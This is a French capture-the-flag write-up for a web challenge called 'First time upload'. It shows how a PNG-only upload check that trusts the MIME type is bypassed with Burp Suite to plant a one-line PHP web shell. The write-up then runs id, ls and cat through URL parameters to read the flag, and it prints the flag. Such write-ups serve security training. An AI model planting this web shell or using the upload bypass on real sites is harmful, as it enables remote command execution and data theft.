

# Write up : First time upload #

Catégorie :

```
Web
```

Consigne :

```
Lire le fichier flag sur le serveur.<p>

<FONT COLOR="#ff0000">Accès au site :<br>   <a href="http://game2.marshack.fr:8083" target="new">http://game2.marshack.fr:8083</a></FONT> <p>

```

Pièce jointe :

```
Aucune
```

Serveur :

```
game2
```

Points attribués :

```
20
```

Flag :

```
MARS{4B4Sl4H13r4Rch13d3Supl04D}
```


## Solution

Le site disponible présente une page d'upload de fichiers, un grand classique.

Le site indique que seules les images au format png peuvent être uplodées.

Le but est de réussir à contourner les sécurités mises en place et de réussir à uploader un web-shell pour lire les fichiers présents sur le serveur web.

Si on essaie d'uploader une image au format .png, cela fonctionne, mais si on essaie un fichier d'une autre extension, le site la refuse. Il est possible d'en déduire que le type MIME du fichier est vérifié avant de télécharger l'image.

Il est possible de le confirmer en utilisant **`burpsuite`** et en altérant le type MIME du fichier uploadé. Pour ce faire, uploadons une image au format JPEG en changeant son type MIME. 

Déclarer l'adresse du proxy **burp suite** sur firefox : 

- Protocole : http
- 127.0.0.1
- 8080 

Ou utiliser un addon firefox :

- Proxy SwitchOmega 2.5.20


L'image avec l'extension .png a bien été uploadée, il est donc déduit que seul le type MIME est vérifié. Par conséquent, il est possible d'uploader un fichier php avec un web-shell.


Fichier : exploit.php

```php
<?php
system($_GET['command']);
?>
```

Il suffit de réitérer l'opération précédente avec le fichier **exploit.php**  mentionné ci-dessus

L'envoi est un succès.


Enfin, il est nécessaire de se rendre sur la localisation de notre script PHP pour qu'il soit exécuté et lancer des commandes via notre `$_GET` dans l'url comme suit.

````
http://game2.marshack.fr:8083/uploads/exploit.php?command=id
````


Le résultat nous montre que l'on peut exécuter des commandes avec les droits de l'utilisateur *www-data*.

A partir de là, il est possible d'aller chercher le flag dans l'arborescence et de le lire avec la commande `cat`.
```
http://game2.marshack.fr:8083/uploads/exploit.php?command=ls -la ../../../../

total 88 drwxr-xr-x 1 root root 4096 Feb 19 12:54 . drwxr-xr-x 1 root root 4096 Feb 19 12:54 .. -rw-r----- 1 root www-data 57 Feb 5 10:22 .TheFlag -rwxr-xr-x 1 root root 0 Feb 19 12:54 .dockerenv drwxr-xr-x 1 root root 4096 Jan 23 08:49 bin drwxr-xr-x 2 root root 4096 Apr 12 2016 boot drwxr-xr-x 5 root root 340 Feb 19 12:54 dev -r-x------ 1 root root 298 Feb 18 14:27 entrypoint.sh drwxr-xr-x 1 root root 4096 Feb 19 12:54 etc drwxr-xr-x 2 root root 4096 Apr 12 2016 home drwxr-xr-x 1 root root 4096 Jan 23 08:48 lib drwxr-xr-x 2 root root 4096 Jan 22 19:22 lib64 drwxr-xr-x 2 root root 4096 Jan 22 19:22 media drwxr-xr-x 2 root root 4096 Jan 22 19:22 mnt drwxr-xr-x 2 root root 4096 Jan 22 19:22 opt dr-xr-xr-x 225 root root 0 Feb 19 12:54 proc drwx------ 2 root root 4096 Jan 22 19:22 root drwxr-xr-x 1 root root 4096 Jan 23 08:49 run drwxr-xr-x 1 root root 4096 Jan 23 08:48 sbin drwxr-xr-x 2 root root 4096 Jan 22 19:22 srv dr-xr-xr-x 13 root root 0 Feb 18 14:08 sys drwxrwxrwt 1 root root 4096 Feb 19 13:35 tmp drwxr-xr-x 1 root root 4096 Jan 22 19:22 usr drwxr-xr-x 1 root root 4096 Jan 23 08:49 var 

```

Les retours à la ligne ne sont pas interprétés par le navigateur, passer en mode *view source* pour voir le résultat correctement aligné.


````
http://game2.marshack.fr:8083/uploads/exploit.php?command=cat%20../../../../.TheFlag
````



Résultat: MARS{4B4Sl4H13r4Rch13d3Supl04D}


## Annexe : arborescence du site

```
./
|-- css
|   `-- scrolling-nav.css
|-- index.php
|-- js
|   `-- scrolling-nav.js
|-- uploads
|   `-- exploit.php
`-- vendor
    |-- bootstrap
    |   |-- css
    |   |   |-- bootstrap-grid.css
    |   |   |-- bootstrap-grid.min.css
    |   |   |-- bootstrap-reboot.css
    |   |   |-- bootstrap-reboot.min.css
    |   |   |-- bootstrap.css
    |   |   |-- bootstrap.css.map
    |   |   |-- bootstrap.min.css
    |   |   `-- bootstrap.min.css.map
    |   `-- js
    |       |-- bootstrap.bundle.js
    |       |-- bootstrap.bundle.js.map
    |       |-- bootstrap.bundle.min.js
    |       |-- bootstrap.bundle.min.js.map
    |       |-- bootstrap.js
    |       |-- bootstrap.js.map
    |       |-- bootstrap.min.js
    |       `-- bootstrap.min.js.map
    |-- jquery
    |   |-- jquery.js
    |   |-- jquery.min.js
    |   |-- jquery.min.map
    |   |-- jquery.slim.js
    |   |-- jquery.slim.min.js
    |   `-- jquery.slim.min.map
    `-- jquery-easing
        |-- jquery.easing.compatibility.js
        |-- jquery.easing.js
        `-- jquery.easing.min.js

```

